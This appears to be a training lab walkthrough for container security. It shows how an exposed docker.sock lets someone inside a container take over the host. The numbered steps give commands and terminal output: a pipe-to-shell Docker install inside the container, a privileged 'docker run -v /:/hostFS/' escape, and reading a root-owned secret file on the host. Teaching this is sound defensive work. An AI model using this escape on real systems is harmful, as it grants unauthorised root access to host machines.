 ## Docker Daemon Direct Access

###### A malicious user who gains access to a container where the `docker.sock` of host machine is exposed, can gain access to the host machine.

##### Step 1:

* Open Terminal

	![](img/Open-Terminal.png)

##### Step 2:

*  **cd** into  `/home/we45/container_training/Container/Container-Attacks/Docker-Daemon-Direct-Access`

    ```commandline
    cd /home/we45/container_training/Container/Container-Attacks/Docker-Daemon-Direct-Access
    ```
##### Step 3:

* Run `docker run -d -v /var/run/docker.sock:/var/run/docker.sock --name vul_flask abhaybhargav/vul_flask` to start a docker container.

    ```commandline
    root@we45:~/container_training/Container/Container-Attacks/Docker-Daemon-Direct-Access# docker run -d -v /var/run/docker.sock:/var/run/docker.sock --name vul_flask abhaybhargav/vul_flask
    1681e86d567eaa2b7344cff0535819fffe8f3a786b4b768be3c95d9b40a4e71d
    ```
      
    ![](img/docker-run.png)
 
##### Step 4:   

* Run `docker ps` to view, all running containers.

    ```commandline
    root@we45:~/container_training/Container/Container-Attacks/Docker-Daemon-Direct-Access# docker ps
    CONTAINER ID        IMAGE                    COMMAND             CREATED              STATUS              PORTS               NAMES
    1681e86d567e        abhaybhargav/vul_flask   "python app.py"     About a minute ago   Up About a minute   5050/tcp            vul_flask/tcp            vul_flask
    ```
     
    ![](img/docker-ps.png)
    
##### Step 5:   

* Run `docker exec -it vul_flask bash` to exec into a running container.

    ```commandline
    root@we45:~/container_training/Container/Container-Attacks/Docker-Daemon-Direct-Access# docker exec -it vul_flask bash
    root@1681e86d567e:/apps# 
    ```
    ![](img/docker-exec.png)

##### Step 6:

* Install docker-engine by running `apt-get update && apt-get install wget -y && wget -qO- https://get.docker.com | sh`

    ```commandline
    root@1681e86d567e:/apps# apt-get update && apt-get install wget -y && wget -qO- https://get.docker.com | sh
    Get:1 http://security.debian.org jessie/updates InRelease [44.9 kB]
    Ign http://deb.debian.org jessie InRelease          
    Get:2 http://deb.debian.org jessie-updates InRelease [145 kB]
    Get:3 http://deb.debian.org jessie Release.gpg [2420 B]                               
    Get:4 http://deb.debian.org jessie Release [148 kB]              
    Get:5 http://deb.debian.org jessie-updates/main amd64 Packages [23.0 kB]          
    Get:6 http://deb.debian.org jessie/main amd64 Packages [9098 kB]       
    Get:7 http://security.debian.org jessie/updates/main amd64 Packages [663 kB]
    Fetched 10.1 MB in 21s (480 kB/s)                                                                                                                            
    Reading package lists... Done
    Reading package lists... Done
    Building dependency tree       
    Reading state information... Done
    The following packages will be upgraded:
      wget
    1 upgraded, 0 newly installed, 0 to remove and 66 not upgraded.
    Need to get 496 kB of archives.
    After this operation, 362 kB disk space will be freed.
    Get:1 http://deb.debian.org/debian/ jessie/main wget amd64 1.16-1+deb8u5 [496 kB]
    Fetched 496 kB in 1s (288 kB/s)
    debconf: delaying package configuration, since apt-utils is not installed
    (Reading database ... 21636 files and directories currently installed.)
    Preparing to unpack .../wget_1.16-1+deb8u5_amd64.deb ...
    Unpacking wget (1.16-1+deb8u5) over (1.16-1+deb8u4) ...
    Setting up wget (1.16-1+deb8u5) ...
    # Executing docker install script, commit: 36b78b2
    + sh -c apt-get update -qq >/dev/null
    + sh -c apt-get install -y -qq apt-transport-https ca-certificates curl >/dev/null
    debconf: delaying package configuration, since apt-utils is not installed
    + sh -c curl -fsSL "https://download.docker.com/linux/debian/gpg" | apt-key add -qq - >/dev/null
    + sh -c echo "deb [arch=amd64] https://download.docker.com/linux/debian jessie edge" > /etc/apt/sources.list.d/docker.list
    + [ debian = debian ]
    + [ jessie = wheezy ]
    + sh -c apt-get update -qq >/dev/null
    + sh -c apt-get install -y -qq --no-install-recommends docker-ce >/dev/null
    debconf: delaying package configuration, since apt-utils is not installed
    + sh -c docker version
    Client:
     Version:           18.06.1-ce
     API version:       1.38
     Go version:        go1.10.3
     Git commit:        e68fc7a
     Built:             Tue Aug 21 17:25:03 2018
     OS/Arch:           linux/amd64
     Experimental:      false
    
    Server:
     Engine:
      Version:          18.06.1-ce
      API version:      1.38 (minimum version 1.12)
      Go version:       go1.10.3
      Git commit:       e68fc7a
      Built:            Tue Aug 21 17:23:24 2018
      OS/Arch:          linux/amd64
      Experimental:     false
    If you would like to use Docker as a non-root user, you should now consider
    adding your user to the "docker" group with something like:
    
      sudo usermod -aG docker your-user
    
    Remember that you will have to log out and back in for this to take effect!
    
    WARNING: Adding a user to the "docker" group will grant the ability to run
             containers which can be used to obtain root privileges on the
             docker host.
             Refer to https://docs.docker.com/engine/security/security/#docker-daemon-attack-surface
             for more information.
    ```

##### Step 7:

*  Once docker is installed, run `docker run -ti -v /:/hostFS/ ubuntu:16.04 /bin/bash`

    ```commandline
    root@1681e86d567e:/apps# docker run -ti -v /:/hostFS/ ubuntu:16.04 /bin/bash
    root@b412be8326b5:/#
    ```

##### Step 8:

* Run `cd /hostFS/root/` to access the toot directory.

    ```commandline
    root@b412be8326b5:/# cd /hostFS/root/    
    ```
    
##### Step 9:  

* Run `ls` to check the secret.txt file inside a container.

    ```commandline
    root@b412be8326b5:/hostFS/root# ls
    secret.txt
    ``` 
    
##### Step 10:

* Run `cat secret.txt` to view the content of the file.

```commandline
root@b412be8326b5:/hostFS/root# cat secret.txt 
secret
``` 
**Note:** Malicious user now has complete access to the root Filesystem of the host machine.

##### Step 11:

* Run `exit` to exit from the Malicious container.

    ```commandline
    root@b412be8326b5:/hostFS/root# exit
    exit
    ```

##### Step 12:

* Run `exit` to exit from the container.

    ```commandline
    root@1681e86d567e:/apps# exit
    exit
    ```

##### Step 13:  
 
* Run `docker stop vul_flask` to stop the running container.

    ```commandline
    root@we45:~/container_training/Container/Container-Attacks/Docker-Daemon-Direct-Access# docker stop vul_flask
    vul_flask
    ```
        
    ![](img/docker-stop.png)  
    
##### Step 14:   

* Run `docker rm vul_flask` to remove stopped container.

    ```commandline
    root@we45:~/container_training/Container/Container-Attacks/Docker-Daemon-Direct-Access# docker rm vul_flask
    vul_flask
    ```
    ![](img/docker-rm.png)
    
##### Step 15:

* Run `clean-docker` to stop all containers.  

    ```commandline
    (venv)root@we45: clean-docker
    92200af86b18
    ca94dab2d52e
    92200af86b18
    34c4adcf326d
    86cd73d03ef1
    ca94dab2d52e
    "docker rmi" requires at least 1 argument.
    See 'docker rmi --help'.
    
    Usage:  docker rmi [OPTIONS] IMAGE [IMAGE...]
    
    Remove one or more images
    
    ``` 
